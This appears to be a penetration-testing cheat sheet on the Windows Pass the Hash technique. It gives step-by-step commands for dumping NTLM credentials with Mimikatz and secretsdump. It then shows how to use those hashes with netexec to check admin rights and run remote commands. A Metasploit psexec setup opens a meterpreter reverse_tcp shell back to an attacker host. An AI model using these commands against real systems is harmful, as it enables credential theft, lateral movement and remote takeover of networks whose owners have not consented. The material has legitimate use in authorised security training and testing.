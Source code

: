 **Pass the Hash** (PtH) is a post-exploitation technique that allows attackers to authenticate to systems without needing plaintext credentials. Instead, attackers use the **hashed version** of a password directly to access resources. This is possible due to weak authentication protocols, primarily in Windows environments, which validate hashes rather than plaintext passwords.

---

## Key Concepts

- **Hash Authentication**: Many Windows services accept NTLM hashes as authentication without verifying the plaintext password.
- **Hash Retrieval**: Hashes are extracted from memory, SAM databases, or network traffic using tools like Mimikatz or secretsdump.
- **Lateral Movement**: Attackers use the retrieved hashes to access additional systems, escalating their control within the network.

--- 

## Obtain Hashes

- Extract NTLM hashes from a compromised system using tools like:

```bash
mimikatz sekurlsa::logonpasswords
```

Or dump hashes from the SAM database:

```bash
secretsdump.py <target_user>@<target_ip>
```

## Use Hashes to authenticate

#### Using netexec

| Option        | Description                                                |
| ------------- | ---------------------------------------------------------- |
| `<target_ip>` | Target machine's IP address.                               |
| `<username>`  | User account.                                              |
| `<NTLM_hash>` |  Hash (format: `<LM_Hash>:<NT_Hash>` or just `<NT_Hash>`). |

```bash
netexec smb <target_ip> -u <username> -H <NTLM_hash>
```

**Check for Administrative Access**: To see if the hash provides administrative privileges:

```bash
netexec smb <target_ip> -u <username> -H <NTLM_hash> --admin
```

**Execute Commands**: If administrative access is confirmed, you can execute commands:

```bash
netexec smb <target_ip> -u <username> -H <NTLM_hash> -x "whoami"
```

#### Using Metasploit

1. **Search for a Suitable Module**: Use the `psexec` module, which supports NTLM hashes:

```bash
search psexec
use exploit/windows/smb/psexec
```

2. **Configure the Module**: Set the target information and hash:

```bash
set RHOSTS <target_ip>
set SMBUser <username>
set SMBPass <NTLM_hash>
set SMBDomain .
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <attacker_ip>
set LPORT <attacker_port>
```

3. **Execute the Exploit**: Run the exploit to establish a session:

```bash
exploit
# After a successful session, use `meterpreter` commands to gather information or escalate privileges:
meterpreter > sysinfo
meterpreter > getuid
```